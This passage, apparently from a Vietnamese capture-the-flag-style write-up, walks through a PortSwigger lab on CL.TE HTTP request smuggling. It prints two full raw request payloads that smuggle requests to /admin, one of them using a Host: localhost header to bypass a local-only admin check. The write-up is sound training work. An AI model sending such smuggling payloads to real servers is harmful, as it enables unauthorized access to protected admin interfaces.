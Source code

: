 >Sau đó, back-end server chỉ hỗ trợ `Transfer-Encoding: chunked`, khi gặp kí tự `0` sẽ hiểu là tín hiệu kết thúc => kí tự `G` sẽ được nối vào request sau gây ra lỗi !

>Sau khi confirm được lab này thuộc dạng `CL.TE`, ta sẽ đi tạo payload để request tới `/admin`:
```
POST / HTTP/1.1
Host: 0a5a009b038cd52b80ec6ccd006c00c5.web-security-academy.net
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Foo: x


```
![image](https://hackmd.io/_uploads/BkHqAwXO0.png)

>Sau khi send request 2 lần thì respone báo lỗi **Admin interface only available to local users**, ta sẽ thêm `Host: 127.0.0.1` vào xem bypass được không: 
>![image](https://hackmd.io/_uploads/BkkHk_X_A.png)

>Lần này báo lỗi **"Duplicate header names are not allowed"** do request chứa 2 header `Host` cùng lúc! Như vậy ta sẽ thử `POST /admin` với `Host: 127.0.0.1` để lúc này cắt được Host header của request sau ra. Chú ý `Content-Length` phải lớn hơn độ dài của body thực. Ở đây là 6 > 1 (`a`). Lí do là để lấy được một số kí tự của request sau để tấn công thành công!

>Sau 2 lần request thì đã hết lỗi duplicate header name! Nhưng vẫn còn lỗi **"Admin interface only available to local users":**
>![image](https://hackmd.io/_uploads/SklHZdXd0.png)

> Ta sẽ thử thay `127.0.0.1` thành các giá trị tương đương như `127.1`, `localhost`. Thử tới `localhost` thì ta thành công truy cập vào `/admin`:
```
POST / HTTP/1.1
Host: 0a5a009b038cd52b80ec6ccd006c00c5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

POST /admin HTTP/1.1
Host: localhost
Content-Length: 49
Content-Type: application/x-www-form-urlencoded

a
```